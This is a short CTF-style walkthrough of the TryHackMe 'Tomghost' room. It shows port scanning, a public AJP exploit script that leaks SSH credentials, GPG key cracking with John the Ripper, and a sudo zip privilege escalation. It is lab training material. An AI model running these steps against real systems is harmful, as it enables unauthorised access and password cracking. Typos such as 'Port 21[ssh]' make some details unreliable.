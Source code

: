 ```yaml
---
title: Tomghost WalkThrough
permalink: /tomghost
layout: page
tags: TryHackMe
---
```

# TomGhost
![front](/images/tomghost/front.png)
[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

## Open Ports:
 ![open_ports](/images/tomghost/ports.png)
 - 22: ssh
 - 53: domain
 - 8009: ajp13
 - 8080: http-proxy

## Gainaing Access:
 ```bash
 searchsploit ajp
 ```
 ![sploit](/images/tomghost/sploit.png)
	
 ```python
  python 48134.py <ip>
 ```
 ![python_sp](/images/tomghost/python_sp.png)
 * Found **Username** & **Password**

## Port 21[ssh]:
 a. User: `skyfuck`

 b. Passwd: `87302………salks`

### User Flag:
 ![usflag](/images/tomghost/usrflag.png)

## Priviledge Escalation:
 1. import files form /home/skyfuck to your **pc**
  Now craking the files:
  ```bash
  Gpg2john tryhacme.acs > outfile
  John outfile --format=gpg --wordlist=rockyou.txt
  ```
  ![john](/images/tomghost/john.png)
 2. Go to Vulneralble machine:
  ```bash
  Gpg --import tryhackme.asc
  Gpg --decrypt credential.pgp
  ```
  ![gpg](/images/tomghost/gpg.png)
 3. `sudo` `-l`
  ![sudo](/images/tomghost/sudo.png)
 4. Exploiting via **_zip_**
  ![zip](/images/tomghost/zip.png)

### Root Flag:
 ![root](/images/tomghost/root.png)
